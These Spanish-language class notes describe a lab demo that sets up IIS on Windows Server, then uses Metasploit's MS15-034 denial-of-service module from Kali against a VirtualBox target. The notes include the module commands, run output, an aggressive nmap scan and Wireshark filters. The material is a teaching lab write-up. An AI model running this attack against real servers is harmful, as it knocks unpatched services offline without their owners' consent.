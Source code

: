 ```yaml
---
title: S06 | C05 | BUFFER OVERFLOWS - DEMO
date: 2024-10-10 00:00:00 -05:00
categories: [Vulnerabilities, Windows 2008, Metasploit]
tags: [metasploit]
---
```

--------------------------------------------

## Instalar el servidor web (windows server)

1. Add roles
    ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 120502.png)

2. Seleccionar el servicio a instalar, en este caso **Web Server (IIS)**
    ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 141653.png)

3. Mensaje de instalación exitosa
    ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 141836.png)

4. Server Manager - Web Server (IIS)
    ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 142035.png)


Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/dos/http/ms15_034_ulonglongadd                               normal  Yes    MS15-034 HTTP Protocol Stack Request Handling Denial-of-Service
   1  auxiliary/scanner/http/ms15_034_http_sys_memory_dump                   normal  Yes    MS15-034 HTTP Protocol Stack Request Handling HTTP.SYS Memory Information Disclosure


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/ms15_034_http_sys_memory_dump

## Configuración del Módulo
1. Acceder a metasploi desde kali linux

    ```bash
    ┌──(user㉿kali)-[~/Downloads]
    └─$ msfconsole -q   

    msf6 > search ms15_034
    ```
2. Cargar el modulo **auxiliary/dos/http/ms15_034_ulonglongadd** 

    ```bash
    msf6 > use auxiliary/dos/http/ms15_034_ulonglongadd 
    msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > show options
    ```
    ```bash
    Module options (auxiliary/dos/http/ms15_034_ulonglongadd):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                            tasploit.html
    RPORT      80               yes       The target port (TCP)
    SSL        false            no        Negotiate SSL/TLS for outgoing connections
    TARGETURI  /                no        URI to the site (e.g /site/) or a valid file resource (e.g /welcome.png)
    TARGETURI  /                no        URI to the site (e.g /site/) or a valid file resource (e.g /welcome.png)
    THREADS    1                yes       The number of concurrent threads (max one per host)
    VHOST                       no        HTTP server virtual host


    View the full module info with the info, or info -d command.
    ```

3. Configurar la dirección IP del objetivo

    - Añadir el RHOSTS, VERSOBSE, RUN al modulo (dos/http/ms15_034_ulonglongadd)

    ```bash
        set RHOSTS 10.0.2.4
    ```    
    ```bash
        set VERBOSE true
    ```    

4. Ejecutar el ataque, verificar si el servidor es vulnerable.

    ```bash
       run
    ```
    ```bash
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > set RHOSTS 10.0.2.4
        RHOSTS => 10.0.2.4
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > set VERBOSE true
        VERBOSE => true
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > run

        [*] 10.0.2.4:80 - Checking /welcome.png [416] - Vulnerable
        [*] File length: 184946 bytes
        [*] DOS request sent
        [*] Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
     ```

5. Verificar si el serividor target esta ejecutando el servicio 
    - Verificar si se esta usando el puerto 80 
        ```bash
        sudo nmap -A -p 80 10.0.2.4
        ```    
    - Escaneo agresivo
        ```bash
            msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > sudo nmap -A -p 80 10.0.2.4
        ```
    - Verificar si el servidor esta en funcionamiento.
        - Desde el navegador desde la maquina atacada (por pruebas) mediante **http://localhost/**
        ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 142046.png)
        - Desde el terminal, verificamos que el puerto 80 esta activo.
            ```bash
            netstat -an
            ```
        - - verificar el puerto 80 activado
            ```bash
            msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > sudo nmap -A -p 80 10.0.2.4
            [*] exec: sudo nmap -A -p 80 10.0.2.4

            [sudo] password for user: 
            Sorry, try again.
            [sudo] password for user: 
            Sorry, try again.
            [sudo] password for user: 
            Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 12:53 PDT
            Nmap scan report for 10.0.2.4
            Host is up (0.0022s latency).

            PORT   STATE SERVICE VERSION
            80/tcp open  http    Microsoft IIS httpd 7.5
            |_http-title: IIS7
            | http-methods: 
            |_  Potentially risky methods: TRACE
            |_http-server-header: Microsoft-IIS/7.5
            MAC Address: 08:00:27:9B:22:24 (Oracle VirtualBox virtual NIC)
            Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
            Device type: phone|specialized|general purpose
            Running (JUST GUESSING): Microsoft Windows Phone|7|8.1|Vista|2008 (94%)
            OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_8
            Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (94%), Microsoft Windows Embedded Standard 7 (94%), Microsoft Windows 8.1 R1 (92%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (92%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (92%), Microsoft Windows Server 2008 or 2008 Beta 3 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Server 2008 R2 SP1 (88%), Microsoft Windows Server 2008 SP1 (88%)
            No exact OS matches for host (test conditions non-ideal).
            Network Distance: 1 hop
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

            TRACEROUTE
            HOP RTT     ADDRESS
            1   2.17 ms 10.0.2.4

            OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
            Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
            ```
        ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 142257.png)

    - Verificar desde el navegador desde la maquina atacante, mediante la IP de la maquina target **10.0.2.4**
        ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 142450.png)

    - Añadir el RHOSTS, VERSOBSE, RUN al modulo (dos/http/ms15_034_ulonglongadd)

        ```bash
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > set RHOSTS 10.0.2.4
        RHOSTS => 10.0.2.4
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > set VERBOSE true
        VERBOSE => true
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > run

        [*] 10.0.2.4:80 - Checking /welcome.png [416] - Vulnerable
        [*] File length: 184946 bytes
        [*] DOS request sent
        [*] Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > Interrupt: use the 'exit' command to quit
        msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > 
        ```

## Analizar en el Wireshark
- Filtros
    ```bash
        tcp.port == 80 && ip.dst == 10.0.2.4
    ```
    ```bash
        tcp.port == 80 &&   (ip.dst == 10.0.2.4 || ip.src == 10.0.2.4)´
    ```
    > y &&, o ||

    > ip.dst == 10.0.2.4 , paquetes que vayan del target

    > ip.src == 10.0.2.4 , paquetes que vengan del target


- HTTP en Wireshark
    - Pide al servidor destino la pagina web en archivo, para mostrarla en la maquina que la solicita
        ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 144143.png)

        ![figura](/assets/images/2024-10-10-s06_clase05/Captura de pantalla 2024-11-01 150317.png)










